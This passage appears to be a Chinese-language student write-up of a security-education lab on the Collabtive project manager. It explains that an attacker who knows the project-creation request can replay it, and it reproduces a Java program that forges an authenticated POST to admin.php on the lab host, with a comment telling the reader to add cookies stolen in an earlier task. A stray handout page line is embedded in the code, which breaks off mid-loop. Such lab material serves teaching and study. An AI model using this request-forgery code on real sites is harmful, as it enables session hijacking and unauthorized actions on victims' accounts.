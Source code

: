 当攻击者知道了创建项目的请求以后，就可以编写一个Java程序发送相同的HTTP请求达到创建项目的目的，当然还可以进行其他的请求：

&gt;HTTP访问请求：

&gt;1、打开一个连接到web服务器。

&gt;2、设置必要的HTTP头信息。

&gt;3、发送请求到web服务器。

&gt;4、得到来自web服务器的响应。

```
    import java.io.*;
    import java.net.*;
    public class HTTPSimpleForge {
    public static void main(String[] args) throws IOException {
    try {
    int responseCode;
    InputStream responseIn=null;
    // URL to be forged.
    URL url = new URL (&#34;http://www.xsslabcollabtive/admin.php?action=addpro&#34;);
    // URLConnection instance is created to further parameterize a
    // resource request past what the state members of URL instance
    // can represent.
    URLConnection urlConn = url.openConnection();
    if (urlConn instanceof HttpURLConnection) {
    urlConn.setConnectTimeout(60000);
    urlConn.setReadTimeout(90000);
    }
    // addRequestProperty method is used to add HTTP Header Information.
    // Here we add User-Agent HTTP header to the forged HTTP packet.
    // Add other necessary HTTP Headers yourself. Cookies should be stolen
    // using the method in task3.
    urlConn.addRequestProperty(&#34;User-agent&#34;,&#34;Sun JDK 1.6&#34;);
    //HTTP Post Data which includes the information to be sent to the server.
    String data=&#34;name=test&amp;desc=test...&amp;assignto[]=...&amp;assignme=1&#34;;
    // DoOutput flag of URL Connection should be set to true
    // to send HTTP POST message.
    urlConn.setDoOutput(true);
    // OutputStreamWriter is used to write the HTTP POST data
    // to the url connection.
    OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
    wr.write(data);
    wr.flush();
    // HttpURLConnection a subclass of URLConnection is returned by
    // url.openConnection() since the url is an http request.
    if (urlConn instanceof HttpURLConnection) {
    HttpURLConnection httpConn = (HttpURLConnection) urlConn;
    // Contacts the web server and gets the status code from
    // HTTP Response message.
    responseCode = httpConn.getResponseCode();
    System.out.println(&#34;Response Code = &#34; + responseCode);
    // HTTP status code HTTP_OK means the response was
    // received sucessfully.
    if (responseCode == HttpURLConnection.HTTP_OK) {
    Laboratory for Computer Security Education 6
    // Get the input stream from url connection object.
    responseIn = urlConn.getInputStream();
    // Create an instance for BufferedReader
    // to read the response line by line.
    BufferedReader buf_inp = new BufferedReader(
    new InputStreamReader(responseIn));
    String inputLine;
    while((inputLine = buf_inp.readLine())!=null) {
    System.out.println(inputLine);
```
